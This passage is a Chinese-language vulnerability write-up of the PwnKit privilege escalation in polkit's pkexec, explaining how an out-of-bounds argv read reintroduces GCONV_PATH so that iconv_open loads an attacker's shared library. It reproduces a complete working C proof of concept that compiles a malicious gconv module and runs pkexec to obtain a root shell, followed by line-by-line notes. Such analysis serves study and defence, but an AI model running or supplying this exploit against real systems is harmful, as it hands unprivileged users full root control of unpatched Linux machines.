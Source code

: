 ```c
------------------------------------------------------------------------
 383 validate_environment_variable (const gchar *key,
 384                                const gchar *value)
 385 {
 ...
 406           log_message (LOG_CRIT, TRUE,
 407                        "The value for the SHELL variable was not found the /etc/shells file");
 408           g_printerr ("\n"
 409                       "This incident has been reported.\n");
```
`g_printerr()` 通常打印 UTF-8 错误消息，但如果环境变量 CHARSET 不是 UTF-8，它可以打印另一个字符集中的消息（注意：CHARSET 不是安全敏感的，它不是不安全的环境变量）。

要将消息从 UTF-8 转换为另一个字符集，`g_printerr()` 调用 glibc 的函数 `iconv_open()`。

要将消息从一个字符集转换为另一个字符集，`iconv_open()` 执行小型共享库；通常，这些三元组（“from”字符集、“to”字符集和库名称）是从默认配置文件 `/usr/lib/gconv/gconv-modules` 中读取的。但环境变量 `GCONV_PATH` 可以强制 `iconv_open()` 读取另一个配置文件；所以 `GCONV_PATH` 是不安全的环境变量之一（因为它会导致执行任意库），因此会被 ld.so 从 SUID 程序的环境中删除。

我们可以把 `GCONV_PATH` 重新引入 pkexec 的环境，并以 root 身份执行我们自己的共享库。

### 回顾 POC 
现在我们对漏洞原理有了更深的认识，再看一看 POC
```c
  1 #include <stdio.h>
  2 #include <stdlib.h>
  3 #include <unistd.h>
  4 
  5 char *shell =
  6         "#include <stdio.h>\n"
  7         "#include <stdlib.h>\n"
  8         "#include <unistd.h>\n\n"
  9         "void gconv() {}\n"
 10         "void gconv_init() {\n"
 11         "       setuid(0); setgid(0);\n"
 12         "       seteuid(0); setegid(0);\n"
 13         "       system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
 14         "       exit(0);\n"
 15         "}";
 16         
 17 int main(int argc, char *argv[]) {
 18         FILE *fp;
 19         system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
 20         system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
 21         fp = fopen("pwnkit/pwnkit.c", "w");
 22         fprintf(fp, "%s", shell);
 23         fclose(fp); 
 24         system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
 25         char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
 26         execve("/usr/bin/pkexec", (char*[]){NULL}, env);
 27 } 
```
需要新注意的是：
1. L26，使用 `execve` 调用 `pkexec`，`(char*[]){NULL}`造成 `argv[1]` 越界读取
1. L25，一个特殊的数组，env[0]为 payload，env[1]引入了`GCONV_PATH`
1. L20，设置非UTF-8环境，也就导致 payload 中 `gconv_init` 执行，造成 `/bin/sh` 执行，恢复环境变量得到 root shell。
